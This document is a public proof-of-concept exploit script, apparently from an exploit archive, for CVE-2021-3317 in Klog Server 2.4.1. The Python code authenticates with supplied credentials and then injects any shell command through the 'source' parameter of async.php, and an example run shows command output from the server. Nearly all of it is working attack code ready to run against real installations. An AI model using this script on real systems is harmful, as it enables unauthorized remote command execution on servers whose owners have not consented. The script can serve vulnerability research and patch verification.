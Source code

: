 EXP
---

    # Exploit Title: Klog Server 2.4.1 - Command Injection (Authenticated)
    # Date: 26.01.2021
    # Exploit Author: Metin Yunus Kandemir
    # Vendor Homepage: https://www.klogserver.com/
    # Version: 2.4.1
    # Description: https://docs.unsafe-inline.com/0day/klog-server-authenticated-command-injection
    # CVE: 2021-3317

    """
    Description:
    "source" parameter is executed via shell_exec() function without input validation in async.php file.

    Example:
    python3 PoC.py --target 10.10.56.51 --username admin --password admin --command id
    [*] Status Code for login request: 302
    [+] Authentication was successful!
    [*] Exploiting...

    uid=48(apache) gid=48(apache) groups=48(apache)

    """

    import argparse
    import requests
    import sys
    import urllib3
    from argparse import ArgumentParser, Namespace


    def main():
        dsc = "Klog Server 2.4.1 - Command Injection (Authenticated)"
        parser: ArgumentParser = argparse.ArgumentParser(description=dsc)
        parser.add_argument("--target", help="IPv4 address of Cockpit server", type=str, required=True)
        parser.add_argument("--username", help="Username", type=str, required=True)
        parser.add_argument("--password", help="Password", type=str, required=True)
        parser.add_argument("--command", help="Command", type=str, required=True)
        args: Namespace = parser.parse_args()
        if args.target:
            target = args.target
            if args.username:
                username = args.username
                if args.password:
                    password = args.password
                    if args.command:
                        command = args.command

                    exploit(target, username, password, command)


    def exploit(target, username, password, command):
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        s = requests.Session()
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0",
             "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
             "Accept-Language": "en-US,en;q=0.5",
             "Accept-Encoding": "gzip, deflate",
             "Content-Type": "application/x-www-form-urlencoded",
             "Connection": "close",
             "Upgrade-Insecure-Requests": "1",
             }

        data = {"user" : username, "pswd" : password}

        login = s.post("https://" + target + "/actions/authenticate.php" , data=data, headers=headers, allow_redirects=False, verify=False)
        print("[*] Status Code for login request: " + str(login.status_code))

        if login.status_code == 302:
            check = s.get("https://" + target + "/index.php", allow_redirects=False, verify=False)
            if check.status_code == 200:
                print("[+] Authentication was successful!")
            else:
                print("[-] Authentication was unsuccessful!")
                sys.exit(1)
        else:
            print("Something went wrong!")
            sys.exit(1)

        print("[*] Exploiting...\n")

        executeCommand = s.get("https://" + target + "/actions/async.php?action=stream&source=;"+ command +";", allow_redirects=False, verify=False)
        print(executeCommand.text)
        sys.exit(0)

    if __name__ == '__main__':
        main()